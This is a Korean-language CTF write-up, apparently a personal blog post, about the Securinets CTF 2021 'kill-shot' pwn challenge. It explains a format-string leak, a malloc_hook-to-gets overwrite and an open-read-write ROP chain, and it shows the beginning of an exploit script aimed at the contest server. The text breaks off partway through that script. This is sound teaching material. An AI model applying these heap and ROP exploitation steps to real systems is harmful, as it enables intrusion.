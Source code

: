 ```yaml
---
layout: post
title: Securinets CTF 2021 pwn write-up
categories: ctf-write-up
tags: [ctf]
---
```


주말에 Securinets CTF를 잠깐 참여했다. 2~3시간 정도밖에 문제를 안봐서 다 풀지는 못했는데, 나름 재미있었다.


[kill-shot](#kill-shot)
[death-note](#death-note)
[success](#success)


---


# kill-shot (810pts, 24solves)

## Summary

1. Using fsb, leak pie_base and libc_base and stack_addr
2. malloc_hook → gets
3. gets(stack)
4. rop



- seccomp로 `openat`, `read`, `write`, `mmap` 함수들을 사용가능 하도록 허용
- fsb로 원하는 주소 leak 가능 (%n이 차단되어 있기 때문에 값을 쓰지는 못함)
- 원하는 주소에 원하는 값을 1회 쓸 수 있음



위와 같은 환경인데, 메모리 보호기법은 모두 걸려있었다. 그리고 malloc과 free를 하는 기능을 구현 해놓은 문제인데, 이때 실행 흐름을 제어하기 위해서 덮을 수 있는 곳은 `malloc_hook`, `free_hook`, `_rtld_global._dl_rtld_lock_recursive` 정도가 있을 것이다.



orw를 해야하기 때문에 단순히 흐름을 한 번만 제어하는 것은 의미가 없다. rop를 해야만 하는데, 처음 생각한 아이디어는 free_hook을 printf로 덮는 것이다. malloc을 통해 fsb 코드를 넣고 free를 호출해서 fsb를 발생시키면 뭔가를 할 수 있지 않을 까 싶었다.



근데 생각해보니, leak을 마음대로 할 수 있고 malloc의 인자는 사용자가 입력하는 값이기에 malloc_hook을 gets로 덮었다. malloc의 인자로 malloc_ret를 가리키는 스택 주소를 넣어주면 rop가 가능하고 openat, read, write는 모두 인자가 3개이기 때문에 return to csu 기법을 이용하였다.



openat의 첫 번째 인자는 -100을 넣어주면 open과 동일한 기능을 한다. 또한 로컬에선 fd가 3이지만 remote에선 fd가 5였다.

```python
from jsec import *

#p = process('./kill_shot')
p = remote("bin.q21.ctfsecurinets.com", 1338)
e = ELF('./kill_shot')
libc = e.libc

p.sendafter(': ', '%6$p%24$p%25$p')
stack = int(p.recv(14), 16)
pie_base = int(p.recv(14), 16) - 0x1240
libc_base = int(p.recv(14), 16) - 0x21b97

malloc_hook = libc_base + libc.sym['__malloc_hook']
gets = libc_base + libc.sym['gets']
openat = libc_base + libc.sym['openat']
read = libc_base + libc.sym['read']
write = libc_base + libc.sym['write']
```
